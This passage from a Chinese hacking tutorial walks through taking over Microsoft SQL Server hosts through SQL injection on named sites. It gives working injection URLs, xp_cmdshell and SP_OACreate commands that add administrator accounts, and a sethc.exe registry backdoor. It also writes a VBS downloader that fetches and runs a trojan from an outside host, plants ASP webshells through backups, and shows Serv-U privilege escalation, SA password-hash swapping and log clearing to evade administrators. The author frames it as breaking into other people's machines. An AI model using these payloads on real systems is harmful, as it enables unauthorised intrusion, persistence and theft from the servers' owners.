http://www.test.com/bbs/list.asp?code=process' and 1=(select count(*) from master.dbo.sysobjects where xtype='X' AND name='xp_cmdshell') and '1'='1
```

结果返回正常，如图231。这下情况好办多了。当然，如果 `xp_cmdshell` 被删除的话，我们需要对其进行恢复，用到的语句如下：

```sql
EXEC master.dbo.sp_addextendedproc 'xp_cmdshell','xplog70.dll'

EXEC master.dbo.sp_addextendedproc 'xp_cmdshell','c:\inetpub\wwwroot\xplog70.dll'
```

第3条语句是 xplog70.dll 的物理路径，你传到哪里就填相对应的位置。这个时候再来确定下对方开了终端没有？在终端上填入对方网站进行连接，发现可以连接上，如图232。

接着利用 `xp_cmdshell` 来加一个账号就可以了，执行如下语句：

```sql
http://www.test.com/bbs/list.asp?code=process';exec master..xp_cmdshell 'net user test test /add'
```

上面的语句如果成功执行的话，就会在服务器加一个用户名为 test、密码为 test 的用户。但这里我们执行语句后得到的返回信息如图233，报错了！这是什么情况呢？出现这样的提示一般是管理员对 net 做了手脚，如把 net.exe 给删除了，或者对 net.exe 进行了权限设置等。如果没有出现上面的错误，即只是限制了 `xp_cmdshell`，我们还可以用如下语句来加用户：

```sql
DECLARE @shell INT EXEC SP_OACreate 'wscript.shell', @shell OUTPUT EXEC SP_OAMETHOD @shell,'run',null,'C:\\WINNT\\system32\\cmd.exe /c net user test test /add'
```

这段代码利用的是 SP_OACreate 过程，但这里的情况变得有点复杂。我们再来回顾一下第二章里面的内容，还记得映像劫持那一招吗？呵呵，我们提交如下语句：

```sql
http://www.test.com/bbs/list.asp?code=process';exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\sethc.exe','debugger','REG_SZ','c:\\windows\\explorer.exe'--
```

返回正确，如图234。上面语句最后的符号“--”是注释符，是为了避免语句出错。看到图234，我们不由得高兴了一下，接着连上终端，连续 5 次 Shift 后就直接登录进去了，如图235。进去之后发现，cmd.exe、net.exe 确实被删除了，不过不要紧，我们可以在“我的电脑”->“管理”->“本地用户和组”那里加用户。怎么样，一台服务器就这样到手了，简单吧？记得进去要把注册表相应的键值改回来，以免其他人也通过这个方法轻易进入这台服务器。

以上讲的是 Web 与 DATA 在一台服务器中的情况，如果 Web 与 DATA 分离呢？情况有点复杂。到这里最为关键的一步就是取得 DATA 机器的 IP。如果 xp_cmdshell 没有被删除的话，还是可以利用这个过程把命令 ipconfig 的结果插入到表中，然后再一行一行地选择出来，这样我们就可以得到其 ipconfig 的结果了。首先我们需要建一个表，提交如下 URL：

```sql
http://www.test.com/board/board_view.asp?subject=&text=&b_num=13487%20%20,create%20table%20[foofoofoo](resulttxt%20nvarchar(4000)%20null)--%20and%201=1
```

如果不出错的话会返回正常页面，这段 URL 的意思是建一个名为 foofoofoo 的表，其中的 resulttxt 为列名，并且类型为 nvarchar。接着提交如下 URL：

```sql
http://www.test.com/board/board_view.asp?subject=&text=&b_num=13487%20%20,declare%20@z%20nvarchar(4000)%20set%20@z=0x69...%20insert%20into%20[foofoofoo](resulttxt)%20exec%20master.dbo.xp_cmdshell%20@z;alter%20table%20[foofoofoo]%20add%20id%20int%20identity(1,1)--%20and%201=1
```

这样长的语句看起来有点晕吧？其实就是 `%20` 比较多，呵呵，看了让人有点眼花。在 URL 中，`%20` 代表的是空格，我们把 `%20` 去掉后就得到了如下语句：

```sql
declare @z nvarchar(4000) set @z=0x6900700063006f006e00660069006700 insert into [foofoofoo](resulttxt) exec master.dbo.xp_cmdshell @z; alter table [foofoofoo] add id int not null identity (1,1)-- and 1=1
```

其中 declare 是声明变量的意思，也就是对变量 z（变量前有一个 @ 符号）进行了声明，并且再用 set 来赋值。`0x6900700063006f006e00660069006700` 是 unicode 形式的，我们把每四位看作一个小集体，然后把最后两个 0 都去掉后就变成十六进制了。进行转换后的结果如图236。

后面的 alter table 表示对表 foofoofoo 进行修改，增加了另一个列 id。如果执行成功就会返回正常页面。

现在已经把 ipconfig 执行后的结果插入到 foofoofoo 的表中了，接着要做的是在提取这些数据之前用 cast 把数据进行转换，使之能让我们可以阅读。我们提交如下 URL：

```sql
http://www.test.com/board/board_view.asp?subject=&text=&b_num=13487%20%20and%20(select%20cast(count(*)%20as%20varchar(8000))%2bchar(94)%20from%20[zenio]..[foofoofoo])%3E0--%20and%201=1
```

当然不能出意外啦，接着再一行一行地取出数据。当我们提交以下 URL 的时候，终于看到 IP 相关的数据啦：

```sql
http://www.test.com/board/board_view.asp?subject=&text=&b_num=13487%20%20%20and%20(select%20top%201%20case%20when%20resulttxt%20is%20null%20then%20char(124)%20else%20resulttxt%2bchar(124)%20end%20from%20(select%20top%209%20id,resulttxt%20from%20[foofoofoo]%20order%20by%20[id])%20t%20order%20by%20[id]%20desc)%3E0--%20and%201=1
```

得到的信息如图237。其中“`select%20top%209%20id,resulttxt%20from%20[foofoofoo]%20order%20by%20[id])%20t%20order%20by%20[id]%20desc`”这一句里的“select top 9”意思是取第 9 位，这样就可以依次递增来一步步取出结果。

这些结果得到后记得要把这个表删除掉，以免管理员发现了，删除表的语句很简单：“`drop table foofoofoo`”。当然了，手工的最大缺点就是慢，优点是准确，而工具恰恰相反——速度快，可结果有时候就不准确。这里我们如果用工具的话，得到的效果如图238。

现在我们得到其 IP 地址了，通过这种方法还可以得到开放的端口号、用户名等敏感信息。要是开了 3389，我们就可以直接加用户了。除此之外，SA 权限下还可以读取文件，用到的就是 bulk。如何做呢？我们提交：

```sql
http://mu.test.co.kr/board/board_view.asp?subject=&text=&B_Num=13487;create%20table%20mydata%20(line%20varchar(8000))--
```

第一步还是建表，第二步就是向表中插数据，提交：

```sql
http://mu.test.co.kr/board/board_view.asp?subject=&text=&B_Num=13487;bulk%20insert%20mydata%20from%20'c:\boot.ini'--
```

其中引号里面的是 `c:\boot.ini` 的内容，怎么把它显示出来呢？在 MSSQL 的环境里当然是“爆”了，怎么爆？那就得一行一行地爆了，提交如下语句：

```sql
http://wu7test.co.kr/board/board_view.asp?subject=&text=&B_Num=13487%20and%201=convert(int,(select%20top%201%20line%20from%20mydata))
```

得到的返回信息如下：

> Microsoft OLE DB Provider for SQL Server 错误 '80040e07'  
> varchar 值 '\\boot loader\\...' 转换成 int 时出错 ...  
> /board/board_view.asp，行 19

改变 top 后面的数字就可以继续爆出后面几行的数据了。好了，还是回到图238吧，你发现没有，从图中可以看出这台 DATA 服务器处于内网，并且通过判断其 3389、1433 端口，发现没有对外开放。这个时候怎么办？方法还是有的，那就是通过 VBS 来下载我们的免杀木马（因为我们有权限执行 CMD 命令嘛），涉及到的代码如下：

```vb
Set xPost=CreateObject("Microsoft.XMLHTTP")
xPost.Open "GET","http://www.xxx.com/d.exe",0
xPost.Send()
Set sGet=CreateObject("ADODB.Stream")
sGet.Type=1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile "c:\\d.exe",2
```

以上代码是我们要创建的 VBS 文件内容，这些内容我们可以通过 echo 命令来一行一行地创建，如：

```bat
echo Set xPost=CreateObject("Microsoft.XMLHTTP") > c:\test.vbs
```

继续写第二行的时候需要用到追加符 `>>`，如：

```bat
echo xPost.Open "GET","http://www.xxx.com/d.exe",0 >>c:\test.vbs
```

其中 `http://www.xxx.com/d.exe` 为你的免杀木马所在位置，最后一行的 `c:\d.exe` 为你保存文件的路径。test.vbs 创建完后执行：`Cscript test.vbs`，就可以从 `http://www.xxx.com/d.exe` 这里下载我们的免杀木马了。

木马下载完了就要让它运行起来，就像我们平常在本机上执行程序一样，执行：`C:\d.exe` 就可以了。如果一切顺利，等待几分钟后就可以看到有机器上线。除了上面这些手工利用代码外，一些注入工具都可以在 SA 权限下上传文件，这也是一种方法。

上面的情况都比较顺利，可以说遇到的机会比较小。大多数情况下，我们碰到的 SA 都比这里提到的要复杂，有些我们甚至都无能为力。下面我推荐大家看看好友写的《用存储过程一样搞定服务器》和 netpatch 写的《挑战 BT-SA》。

##### 《用存储过程一样搞定服务器》

前几天在搞一个站的时候嗅到了一个 SA 密码，但是用 sql tool 连上之后发现怎么也不能执行 DOS 命令，郁闷……今天突然想到可以用存储过程来搞定这个服务器。首先在本地用 SQL Server 的查询分析器连上它，权限当然是 SA 啦。但是在执行 `exec master.dbo.xp_cmdshell 'net user'` 的时候却提示跟 sql tool 一样的错误，看来 xp_cmdshell 确实不能用，返回如下信息：

> 错误消息  
> 50001，级别 1，状态 50001  
> xpsql.cpp: 错误 5 来自 CreateProcess()（第 737 行）

可能是某个相关的 DLL 文件被删除了，如图239。看来 xp_cmdshell 是不能用了，不过偶们还有 SP_OAcreate 可以用，用它一样可以执行系统命令。在查询分析器里执行如下语句：

```sql
DECLARE @shell INT EXEC SP_OAcreate 'wscript.shell',@shell OUTPUT EXEC SP_OAMETHOD @shell,'run',null,'C:\\WINDOWS\\system32\\cmd.exe /c net user gydyhook hook /add'
```

这段语句就是利用 SP_OAcreate 来添加一个名为 gydyhook 的系统用户，然后直接把他提升为管理员权限。语句执行成功，说明 SP_OAcreate 并没有被删除。我们用终端连一下，如图240、图241，居然提示密码错误，难道是 wscript.shell 被删了？你要问我怎么判断服务器是做了密码策略还是 wscript.shell 被删，我只能告诉你这是经验而已。如果 wscript.shell 被删了，我们只要有 FSO，机会还是有的。

先试着列下目录，找到 Web 目录搞个 SHELL 再说。使用 `exec master.dbo.xp_subdirs 'c:\'` 来查看 C 盘目录，发现可以列目录。然后查看 D 盘时发现有 `D:\Web` 目录，随便找一个网站在 IE 里打开，发现存在。然后列出几个目录，发现这个网站还有 eWebeditor。不过今天不用它，直接写一句话进去，语句如下：

```sql
exec master.dbo.xp_subdirs 'd:\Web\www.xx.com'
exec sp_makewebtask 'd:\Web\www.XXXX.com\XX.asp','select ''<%execute(request("SB"))%>'''
```

提示命令执行成功，看看效果，如图242、图243。看来小马写进去了，剩下的就是写入大马并提权。但是接着意想不到的事情发生了，竟然无法传大马，写入文件失败。然后换了几个目录，也都写不进去。其他目录可以写小马，但传不了大马。看来管理员把整个 Web 目录都设置成了只读，如图244。

气死我了，我都有 SA 了还不信搞不定这台服务器！差点忘记了还可以用沙盘。在查询分析器里执行如下语句：

```sql
select * from openrowset('microsoft.jet.oledb.4.0',
'database=c:\windows\system32\ias\ias.mdb',
'select shell(''cmd.exe /c net user admin admin1234 /add'')')
```

这就利用沙盘来添加了个管理员，但事实告诉我（作者太懒了，在用沙盘之前要把沙盘打开），我的 RP 并不好，如图245。既然沙盘也不行，那就另寻出路吧！刚才列目录时好像看见了 Serv-U 6.3，虽然没有写权限，但读权限总该有吧？直接在一句话里查看目录就 OK 了。虽然能看目录，但是用 ASP 马也不能读出 SERV-U 配置文件，看来还得用存储过程，如图246。

既然找到了 SU 的目录，那偶就想，能不能利用一句话写配置信息到 ServUDaemon.ini 里，然后利用 SU 来提权呢？事实证明这个破站权限太牛了，只能看不能写。不过没关系，偶们还可以利用存储过程，语句如下：

```sql
declare @o int, @f int, @t int, @ret int
declare @line varchar(8000)
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'opentextfile', @f out, 'd:\Serv-U6.3\ServUDaemon.ini', 1
exec @ret = sp_oamethod @f, 'readline', @line out
while (@ret = 0)
begin
  -- ...
end
```

```sql
print @line
exec @ret = sp_oamethod @f, 'readline', @line out
end
```

这段代码可以把 ServUDaemon.ini 里的配置信息全部显示出来！嘿嘿，既然能看了，那不是一样可以写进去吗？直接写一个系统权限的 FTP 账号进去，语句如下：

```sql
declare @o int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'createtextfile', @f out, 'd:\Serv-U6.3\ServUDaemon.ini', 1
exec @ret = sp_oamethod @f, 'writeline', NULL, '（这里填写自己写好的 SU 配置信息，刚才复制的那些都要写上去）'
```

然后执行一下，成功！我们再用存储过程看看写进去没有，如图247。OK，终于成功写进去了一个用户名为 XXXX、密码为空的系统权限 FTP 用户，然后偶们在 FTP 里执行“quote site XXXXXXXX”进行提权就好了。这里已经很熟悉了，就不写了。接着用 3389 连一下，成功得到服务器权限，如图248，然后偶们再用如下语句来清理掉 SQL 日志，免得被管理员发现。

图247

```sql
set nocount on
declare @logicalfilename sysname,
        @maxminutes int,
        @newsize int
```

整个提权过程大部分都是用存储过程来完成的，其实这些东西在以前提权的时候都没有想到，感觉这个思路很不错，接下来看《挑战BT-SA》。

图248

## 《挑战BT-SA》

###### 一、信息探测

由于工作原因，疏于管理肉鸡，用了许久的 VPN 肉鸡飞了……没办法，因为上一些国外站点需要用到 VPN，只能再去找几台做 VPN 了。于是找 Google 帮忙，搜了下，不一会就找到了个有注入且为 SA 权限的肉鸡。心想今天运气不错嘛，一找就是 SA。

可能有些朋友看到这里或许该起哄了，都 SA 了，还好意思写文章出来，这类文章多得都跟米一样了，不差我这篇呢。呵呵，如果是一般的情况，我也不会厚脸皮写出来了，请耐心继续往下看，从中你可以学到 xp_makecab、xp_unpackcab、xp_regread、sp_configure 等扩展存储的使用。

我先说下这台 BT 肉鸡的大概情况：WIN2K + MSSQL2000 + IIS，对外开放 80、1433、3389 端口，且此服务器上只放了它一个站点，而且后台密码是写在 ASP 文件里的（前面猜表时并未找到后台相关的表，于是猜测对方是把密码写在 ASP 文件里了，进去后肯定了我的猜测）。

网络上公认的危险存储扩展均被删除，且无法恢复（后来确认是 odsole70.dll、xplog70.dll、xpstar.dll 三个 DLL 被删除）。这三个 DLL 的删除，意味着 N 多的存储扩展用不了，这也就意味着，虽然是 SA 权限，但你却不能执行命令、不能列目录、不能读/改注册表、不能恢复被删除的存储扩展。

大体情况已经说了，难度系数是有的。虽对方开放了 1433 端口，但这并不代表着 Web 和数据库就在一块的。我曾经就碰到过这类机器，虽然开着 MSSQL 服务，但却是给别的 Web 机器提供服务，既节省资源，又相对安全。

于是我先在本地用 NC 监听 80 端口（反连看 IP，自己机器并不一定要装 MSSQL），在注射点上执行如下语句：

```sql
insert into OPENROWSET('SQLOLEDB','uid=sa;pwd=netpatch;Network=DBMSSOCN;Address=111,111,111,111,80;','select * from dest_table') select * from src_table
```

###### 二、获取系统权限

要获取 WebShell，首先我们得需要路径。如何去获取路径呢？由于许多存储扩展已经不能使用，我们没办法执行命令、列目录、查看注册表等操作，于是我脑袋里闪过的 IDEA 就是，读取 MetaBase.bin 文件！有经验的朋友都知道，此文件乃 IIS 5.0 的网站配置文档。可怎么读呢？注入语句如下：

```sql
drop table [nspcn]
CREATE TABLE [nspcn](ResultTxt nvarchar(1024) NULL)
BULK INSERT [nspcn] FROM 'c:\boot.ini' WITH (KEEPNULLS)
insert into [nspcn] values ('g_over');Alter Table [nspcn] add id int NOT NULL IDENTITY (1,1)
select * from [nspcn]
```

上面的代码利用 BULK 来读取 boot.ini 文件，本地测试成功读取，如图250。于是转而读取 MetaBase.bin 文件（由于虚拟机只有 WIN2K3 装有 MSSQL，我从 WIN2K 上 COPY 了个 MetaBase.bin），但是当时测试时失败了，如图251，读取的内容为空，看样子 MetaBase.bin 里边有一些截断字符导致读取失败。

于是我又想到了 xp_makecab 和 xp_unpackcab 这两个扩展存储，使用如下语句：

```sql
exec master..xp_makecab 'C:\WINNT\Help\iisHelp\common\404b.cab','mszip',1,'C:\WINNT\Help\iisHelp\common\404b.htm'
-- 备份404b.htm页面
-- 由于当时忘了xp_unpackcab有个参数可以解压重命名，哎，真是大意啊，于是用了下面的烂招
Exec master..xp_makecab 'C:\WINNT\Help\iisHelp\common\404b.htm','mszip',1,'C:\WINNT\system32\inetsrv\MetaBase.bin'
-- 结果肯定失败了！
```

没办法，只能另图他法了，得想办法恢复那些存储扩展才行。先用 NC 连了下对方的 1433，根据反馈结果表示可以连上，如图252。于是用如下语句加了个 SYSADMIN 权限的用户：

```sql
exec master.dbo.sp_addlogin nspcn,'netpatch--'
exec master.dbo.sp_addsrvrolemember nspcn,sysadmin
```

后来才发现我语句写错了，第二句漏了个逗号！正确的应该是 `exec master.dbo.sp_addsrvrolemember nspcn,sysadmin`。

用查询分析器连上去，发现只是个 PUBLIC 权限，晕死我了。当时也晕乎乎的，不知道哪里错了，用 NBSI 也没加上，于是想到了一个疯狂的点子，修改 SA 密码。如何修改呢？如果我们直接用“`;exec master.dbo.sp_password null,nspcn,netpatch--`”修改，虽然可以，但万一恢复不了扩展，我们又不知道原密码，无法将密码修改回去，那么将完全暴露，得想个巧妙的方法才行。

于是想到了先复制 SA 的 HASH 到 A 用户，然后再把 B 用户的 HASH 复制给 SA。当然我们知道这个 B 用户的密码，这样我们就可以用知道的密码连上去了；修改回去时把 A 用户的 HASH 复制给 SA 就可以了。

我们先设想下修改后的情况，如果密码修改成功，那么网站立即崩溃报警。如果不在最短的时间内恢复，那么我的行动将会暴露。结合上面的“万一恢复不了扩展”，我制定了如下计划：准备好恢复 sp_addextendedproc 存储扩展的 SQL 语句，以及此扩展恢复后需要恢复的存储扩展以及要执行的命令，当然最后一条是把 SA 密码修改回去的语句。

相关 SQL 如下：

```sql
Use master
```

```sql
create procedure sp_addextendedproc -- 1996/08/30 20:13
@functname nvarchar(517), /* (owner.)name of function to call */
@dllname varchar(255) /* name of DLL containing function */
as
set implicit_transactions off
if @@trancount > 0
begin
  raiserror(15002,-1,-1,'sp_addextendedproc')
  return(1)
end
dbcc addextendedproc(@functname,@dllname)
return(0)

-- 以下语句是恢复/添加扩展过程示例
EXEC sp_addextendedproc 'xp_cmdshell', @dllname='xplog70.dll'
EXEC sp_addextendedproc 'xp_enumgroups', @dllname='xplog70.dll'
EXEC sp_addextendedproc 'xp_loginconfig', @dllname='xplog70.dll'
EXEC sp_addextendedproc 'xp_getfiledetails', @dllname='xpstar.dll'
EXEC sp_addextendedproc 'Sp_OACreate', @dllname='odsole70.dll'
EXEC sp_addextendedproc 'Sp_OADestroy', @dllname='odsole70.dll'
EXEC sp_addextendedproc 'Sp_OAGetErrorInfo', @dllname='odsole70.dll'
EXEC sp_addextendedproc 'Sp_OAGetProperty', @dllname='odsole70.dll'
EXEC sp_addextendedproc 'Sp_OAMethod', @dllname='odsole70.dll'
EXEC sp_addextendedproc 'Sp_OASetProperty', @dllname='odsole70.dll'
EXEC sp_addextendedproc 'Sp_OAStop', @dllname='odsole70.dll'
EXEC sp_addextendedproc 'xp_regaddmultistring', @dllname='xpstar.dll'
EXEC sp_addextendedproc 'xp_regdeletekey', @dllname='xpstar.dll'
EXEC sp_addextendedproc 'xp_regdeletevalue', @dllname='xpstar.dll'
EXEC sp_addextendedproc 'xp_regenumvalues', @dllname='xpstar.dll'
EXEC sp_addextendedproc 'xp_regremovemultistring', @dllname='xpstar.dll'
EXEC sp_addextendedproc 'xp_regwrite', @dllname='xpstar.dll'
EXEC sp_addextendedproc 'xp_dirtree', @dllname='xpstar.dll'
EXEC sp_addextendedproc 'xp_regread', @dllname='xpstar.dll'
EXEC sp_addextendedproc 'xp_fixeddrives', @dllname='xpstar.dll'

-- 相关命令片段
exec master.dbo.xp_cmdshell 'net user nspcn netpatch /add && net localgroup administrators nspcn /add'
DECLARE @shell INT
EXEC sp_oacreate 'wscript.shell', @shell output
EXEC sp_oamethod @shell,'run',null,'cmd.exe /c net user nspcn netpatch /add&&net localgroup administrators nspcn /add',0,true
exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0
update sysxlogins set password=(select top 1 password from sysxlogins where name='a') where name='sa'
```

但是在默认情况下，`master.dbo.sysxlogins` 是不允许修改的，我们需要开启这个权限。执行 `exec master.dbo.sp_configure 'allow updates',1; RECONFIGURE WITH OVERRIDE` 后，我们成功开启了修改权限，于是建立了两个用户 a 和 b，密码均为 `netpatch`。

先用 `update sysxlogins set password=(select top 1 password from sysxlogins where name='sa') where name='a'` 把 SA 的 HASH 复制过去，然后再用 `update sysxlogins set password=(select top 1 password from sysxlogins where name='b') where name='sa'` 把 sa 密码修改为 netpatch。

图253

图254

修改后立即用查询分析器登录内网的 sqlserver 执行已准备好的命令，但当命令执行完毕时发现一个很严重的问题：`odsole70.dll`、`xplog70.dll`、`xpstar.dll` 三个 DLL 已被删除，无法恢复我们需要的存储扩展了（如图253、图254）。再次陷入困境，在百般无奈的情况下，只能用一个没办法的点子。

——猜 Web 目录路径，用上文提到的读 boot.ini 文件的方法，尝试读取网站的主页。还好 RP 比较好，猜了 4 次就被我猜到了 Web 目录，`D:\网站名\index.asp`。

当文件内容被读取出来时，那个兴奋啊……于是立即用差异备份拿到了一个 WebShell，如图255。从 WebShell 中找到数据库连接文件，获得了 SA 的密码，然后再从 WebShell 上传了一个自己的存储扩展，用海阳 ASP 木马的数据库管理功能连接数据库后，执行如下语句添加了一个自己的存储扩展 `xp_nspcn`：

```sql
use master
exec sp_addextendedproc 'xp_nspcn','xp_nspcn.dll'
grant exec
on xp_nspcn
to public
```

再用自己的存储扩展执行如下语句：`Exec master.dbo.xp_nspcn 'net user nspcn netpatch /add&&net localgroup administrators nspcn /add'`，接着用添加的用户成功登录了 3389，如图256。

###### 三、经验总结

虽然进去了，但这是侥幸猜到 Web 目录的物理路径进去的，并不是完全靠实力进去的，心中有所不服。心想，要是现在不解决这个问题，以后碰到类似的，那不就更郁闷了。于是再次研究各个存储扩展的语法，这时才发现自己前面犯的三个严重错误，导致绕了一大圈才进去。

- 1. 本可以利用 `xp_makecab`、`xp_unpackcab` 配合 404 页面获取路径，下面是相关 SQL 语句。

```sql
Exec master..xp_makecab 'C:\WINNT\Help\iisHelp\common\404b.cab','mszip',1,'C:\WINNT\Help\iisHelp\common\404b.htm'
-- 先备份404b.htm页面
Exec master..xp_makecab 'C:\WINNT\Help\iisHelp\common\metabase.cab','mszip',1,'C:\WINNT\system32\inetsrv\MetaBase.bin'
-- 备份metabase.bin文件到 C:\WINNT\Help\iisHelp\common\ 目录
exec master..xp_unpackcab 'C:\WINNT\Help\iisHelp\common\metabase.cab','C:\WINNT\Help\iisHelp\common\','404b.htm'
-- 将 MetaBase.bin 从 metabase.cab 中解压出来，并重命名为 404b.htm
```

然后我们访问该站不存在的文件名，就可以利用 404b 文件帮助我们列出文件内容了。

- 2. 就是加 SYSADMIN 权限的 SQL 语句漏了个逗号，导致添加账号失败，上文有提到正确语句！

- 3. 用了笨办法来修改 SA 密码，其实完全可以用 `exec master.dbo.sp_configure 'allow updates',1; RECONFIGURE WITH OVERRIDE; update sysxlogins set xstatus=18 where name='nspcn'` 来提升普通 SQL 用户 nspcn 权限（此语句和加一个 sa 用户是同等效果）。

多谢前面两位朋友带来的精彩文章，关于 SA 权限相关知识就讲到这里吧，我们来看看 DB 权限下如何继续得到权限。

DB 权限下的思路没有 SA 那样多，但除了猜表等常规工作外，一些 SQL 存储过程我们还是可以利用的。思路大致是：确定 Web 路径 → 备份 shell。如果 Web 与 data 分离就要看具体情况了。DB 权限下可以用 `xp_dirtree` 及 `xp_regread` 这两个存储过程来读取 Web 路径，那么首先来了解下 `xp_regread` 吧！

相对说来，用 `xp_regread` 的局限性还是有点大，因为这个只针对 WIN2000 的机器有效，并且得到的路径是 Web 默认的路径。虽然这样，但这一招有时候还是可以用的。确定对方的系统是 WIN2000 这个操作应该不用我说了吧，我们直接进入正题，读取注册表的步骤如下：

### 第一步：

```text
http://www.test.co.kr/client/site.asp?site_class2=%827%F11%833%820%828%895%827%E91%27;DROP%20TABLE%20D99_REG;CREATE%20TABLE%20D99_REG([ID]%20int,[Data]%20varchar(255))--
```

### 第二步：

```text
http://www.test.co.kr/client/site.asp?site_class2=%827%F11%833%820%828%895%827%E91%27;DECLARE%20@result%20varchar(255);EXEC%20master..xp_regread%20'HKEY_LOCAL_MACHINE','SYSTEM\ControlSet001\Services\W3SVC\Parameters\VirtualRoots\/',@result%20output;insert%20into%20D99_REG([ID],[data])%20values(%279999%27,@result);--
```

####### 第三步

```text
http://www.test.co.kr/client/site.asp?site_class2=%827%F11%833%920%828%895%827%E91%27And%20(Select%20char(124)%2Bcast(Count(1)%20as%20varchar(8000))%2Bchar(124)%20From%20D99_REG)%3E0%20%20and%20%27%27=%27
```

（说明一下，第三步可能会碰到错误，不用管，直接执行第四步）

####### 第四步

```text
http://www.testco.kr/client/site.asp?site_class2=%827%F11%833%920%828%895%827%E91%27And%20(Select%20Top%201%20char(124)%2Bcast([id]%20as%20varchar(256))%2Bchar(124)%2Bdata%2Bchar(124)%20From%20(Select%20Top%201%20[ID],[Data]%20From%20D95_REG%20Order%20by%20[ID])%20T%20order%20by%20[ID]%20desc)%3E0%20%20and%20%27%27=%27
```

第四步执行完后，根据 MSSQL 显错的内容我们就可以得到相应的结果了，如图257，得到了 Web 路径为 `c:\inetpub\wwwroot`。这有什么用呢？和目标站点一点关系都没有。不！利用这一点的关键是，在配置 Web 的时候都有一个默认站点，我们可以通过 IP 的形式来访问。在这里，我们通过 PING 站点得到 IP 为 xx.xx.15.81，然后在浏览器里访问这个 IP，如图258。


聪明的你想到了什么？对，接下来的事就是通过 Web 备份把我们的木马备份到这个目录，这样我们是不是又离目标站近了点呢？这个方法有局限性，管理员的安全意识稍好一点就会把这个默认设置关掉，且利用这个方法的前提是找不到目标站的 Web 路径。

上面的操作环境是 Web 与 DATA 没有分离，如果 Web 与 DATA 分离的话，这一招也是同样有效的，这样就可以确定 DATA 上并且有 Web 服务，然后利用前面的文章《挑战 BT-SA》中的方法得到 DATA 服务器的 IP，接着便是备份得到 SHELL 啦。

除了自身的局限性外，上面的方法算作渗透时的一种思路吧。下面来说一下 xp_dirtree 的利用。和所有的存储过程一样，先建表，接着把 xp_dirtree 的结果插入表中，然后再用 select 函数把内容选出来，其步骤如下：

####### 第一步

```text
http://www.test.co.kr/client/site.asp?site_class2=%827%F11%833%920%828%895%827%E91%27;DROP%20TABLE%20D99_Tmp;CREATE%20TABLE%20D99_Tmp(subdirectory%20VARCHAR(100),depth%20VARCHAR(100),[file]%20VARCHAR(100))%20%20insert%20D99_Tmp%20exec%20master..xp_dirtree%20%22C:\%22;%20--
```

####### 第二步

```text
http://www.test.co.kr/client/site.asp?site_class2=%827%F11%833%920%828%895%827%E91%27And%20(Select%20char(124)%2Bcast((Count(1)%20as%20varchar(8000))%2Bchar(124)%20From%20D99_Tmp!=0)%20%20and%20%27%27=%27
```

####### 第三步

```text
http://www.test.co.kr/client/site.asp?site_class2=%827%F11%833%920%828%895%827%E91%27And%20(Select%20Top%201%20char(124)%2Bcast([file]%20as%20varchar(8000))%2Bsubdirectory%2Bchar(124)%20From%20(Select%20Top%201%20[subdirectory],[file]%20From%20D99_Tmp%20ORDER%20BY%20[file],[subdirectory])%20D%20ORDER%20BY%20[file]%20desc%20,%20[subdirectory]%20desc)=0%20%20and%20%27%27=%27
```

其中变化第二个“select top”后面跟的数字，即依次递增，可以先后得到表中后面的数据，第一条数据如图259。


从图259中我们可以看到存在 cmdcons 这个目录。为什么是目录呢？因为在 cmdcons 的前面还有一个数字“0”，上面的语句是参考了阿D的提交数据模式得来的。我们来继续改变 top 后面跟的数字，看看如果是文件的话会怎么提示。提交如下 URL，返回信息如图260。

```text
http://www.testco.kr/client/site.asp?site_class2=%827%F11%833%920%828%895%827%E91%27And%20(Select%20Top%201%20char(124)%2BCast([file]%20as%20varchar(8000))%2Bsubdirectory%2Bchar(124)%20From%20(Select%20Top%2013%20[subdirectory],[file]%20From%20D99_Tmp%20ORDER%20BY%20[file],[subdirectory])%20D%20ORDER%20BY%20[file]%20desc,%20[subdirectory]%20desc)-0%20%20and%20%27%27=%27
```

在文件面前显示的是数字“1”，这样我们就可以一层层地通过 xp_dirtree 来找到真正的 Web 路径了。如果说非要利用注入得 Web 路径并且是在 db_owner 权限下的话，目前我知道的就这两种方法，另一些人可能还会想到 xp_subdirs 这个存储过程。是的，这个过程确实可以用，但在 db_owner 权限下是无法调用的，它是在 dbo（即 sa）权限下才能调用。在 sa 权限下调用这个函数的方法和 db_owner 权限下调用 xp_dirtree 的方法差不多，这里就不再演示了。


图260

得到 Web 路径后，下一步我们就可以通过备份得到 Shell，甚至备份你的木马到机器的启动项中。目前流行两种备份，分别为差异备份和 log 备份。差异备份的成功率没有 log 备份高，因此现在大多数都采用的是 log 备份。不管是哪一种备份，都是需要数据库名的，至于如何得到，前面已经讲过了。差异备份的代码如下：

- `backup database 库名 to disk = 'c:\ddd.bak';--`
- 创建表并插入数据
- 进行差异备份

```sql
create table [dbo].[dest] ([cmd] [image]);
insert into dest(cmd) values (0x3C25657865637574652872657175657374282261222929253E);
```

```sql
backup database 库名 to disk='Web路径\d.asp' WITH DIFFERENTIAL,FORMAT;--
```

以上的语句中，`3C25657865637574652872657175657374282261222929253E` 就是一句话的内容：`<%execute(request("a"))%>`。但是这样备份要是遇到数据库大的话就不容易成功，以下的代码可以提高成功率：

```sql
declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s=0x77006F006B0061006F002E00620061006B00 backup database @a to disk=@s;
create table [dbo].[xiaolu] ([cmd] [image]);
insert into xiaolu(cmd) values(0x3C25657865637574652872657175657374282261222929253E);
declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s=0x65003A005C007700650062005C0077006F006B0061006F002E00610073007000 backup database @a to disk=@s WITH DIFFERENTIAL,FORMAT;
```

其中 `0x77006F006B0061006F002E00620061006B00` 为 `wokao.bak`，`0x3C25657865637574652872657175657374282261222929253E` 是 `<%execute(request("a"))%>`，`0x65003A005C007700650062005C0077006F006B0061006F002E00610073007000` 是 `e:\Web\wokao.asp`。

上面提到的代码前面都有“0x”字符，表明是十六进制的。下面看看 Log 备份的代码：

```sql
alter database null set RECOVERY FULL;
create table cmd (a image);
backup log null to disk='c:\cmd' with init;
insert into cmd(a) values(0x3C25657865637574652872657175657374282261222929253E);
backup log null to disk='备份路径';
```

